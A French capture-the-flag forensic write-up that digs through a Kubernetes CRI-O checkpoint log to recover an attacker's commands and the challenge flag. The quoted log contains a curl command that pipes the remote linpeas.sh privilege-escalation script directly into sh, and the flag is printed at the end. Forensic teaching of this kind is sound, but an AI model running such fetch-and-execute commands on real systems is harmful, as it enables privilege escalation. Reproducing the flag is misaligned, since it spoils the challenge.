

# Les Mystères du cluster de la Comtesse de Ségur [1/2]



Le fichier fourni : [checkpoint-bash_default-bash-2023-05-06T090421Z.zip](checkpoint-bash_default-bash-2023-05-06T090421Z.zip)

On parcourt l'archive et on s'attache à explorer le contenu du fichier `io.kubernetes.cri-o.LogPath`.

Le contenu laisse penser à une tentative d'élévation de privilèges en téléchargeant des ressources externes comme PEASS-ng :

```txt
2023-05-12T09:01:37.503933132+00:00 stdout F 
root@bash:/# curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
2023-05-12T09:01:38.022633611+00:00 stdout P Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist

```

Un peu plus loin dans le fichier on trouve : 

```txt
[##########################################################################################################################.......] 
2023-05-12T09:02:12.495282825+00:00 stdout P 8
2023-05-12T09:02:12.495604827+00:00 stdout F Processing triggers for libc-bin (2.31-13+deb11u6) ...
2023-05-12T09:02:12.501452112+00:00 stdout F 
2023-05-12T09:02:12.501525111+00:00 stdout P 78
2023-05-12T09:02:12.501541055+00:00 stdout P 
2023-05-12T09:02:38.405663786+00:00 stdout P [?2004hroot@bash:/# 
2023-05-12T09:02:44.208514789+00:00 stdout P c
2023-05-12T09:02:44.383673565+00:00 stdout P u
2023-05-12T09:02:44.495803721+00:00 stdout P r
2023-05-12T09:02:44.624212440+00:00 stdout P l
2023-05-12T09:02:44.784980308+00:00 stdout P  
2023-05-12T09:02:45.120117909+00:00 stdout P a
2023-05-12T09:02:45.280371026+00:00 stdout P g
2023-05-12T09:02:45.376097971+00:00 stdout P e
2023-05-12T09:02:45.535906452+00:00 stdout P n
2023-05-12T09:02:45.583746097+00:00 stdout P t
2023-05-12T09:02:45.888468179+00:00 stdout P .
2023-05-12T09:02:46.016785896+00:00 stdout P c
2023-05-12T09:02:46.144170561+00:00 stdout P h
2023-05-12T09:02:46.288366062+00:00 stdout P a
2023-05-12T09:02:46.448011579+00:00 stdout P l
2023-05-12T09:02:46.576356797+00:00 stdout P l
2023-05-12T09:02:46.656085743+00:00 stdout P e
2023-05-12T09:02:46.800369337+00:00 stdout P n
2023-05-12T09:02:46.848344444+00:00 stdout P g
2023-05-12T09:02:46.959441511+00:00 stdout P e
2023-05-12T09:02:47.120121199+00:00 stdout P s
2023-05-12T09:02:47.375883500+00:00 stdout P .
2023-05-12T09:02:47.872614586+00:00 stdout P 4
2023-05-12T09:02:48.112514781+00:00 stdout P 0
2023-05-12T09:02:48.288026121+00:00 stdout P 4
2023-05-12T09:02:48.383643814+00:00 stdout P c
2023-05-12T09:02:48.591967718+00:00 stdout P t
2023-05-12T09:02:48.736549789+00:00 stdout P f
2023-05-12T09:02:49.056036379+00:00 stdout P .
2023-05-12T09:02:49.152408250+00:00 stdout P f
2023-05-12T09:02:49.264672595+00:00 stdout P r
2023-05-12T09:02:49.423575100+00:00 stdout P  
2023-05-12T09:02:49.600169749+00:00 stdout P -
2023-05-12T09:02:50.016401267+00:00 stdout P o
2023-05-12T09:02:50.160043149+00:00 stdout P  
2023-05-12T09:02:50.288014049+00:00 stdout P a
2023-05-12T09:02:50.448409265+00:00 stdout P g
2023-05-12T09:02:50.544001546+00:00 stdout P e
2023-05-12T09:02:50.688011717+00:00 stdout P n
2023-05-12T09:02:50.752088042+00:00 stdout P t
2023-05-12T09:02:51.039827570+00:00 stdout P .
2023-05-12T09:02:51.200768807+00:00 stdout P z
2023-05-12T09:02:51.311881365+00:00 stdout P i
2023-05-12T09:02:51.536273713+00:00 stdout P p
```

La commande réalisée a donc été :

```bash
curl agent.challenges.404ctf.fr -o agent.zip
```

On appelle donc l'URL mentionnée dans le `curl` (i.e. https://agent.challenges.404ctf.fr/), ce qui déclenche le téléchargement d'un fichier [`agent.zip`](agent.zip)

Cette archive contient un fichier `flag.txt` :
```txt
404CTF{K8S_checkpoints_utile_pour_le_forensic}
```
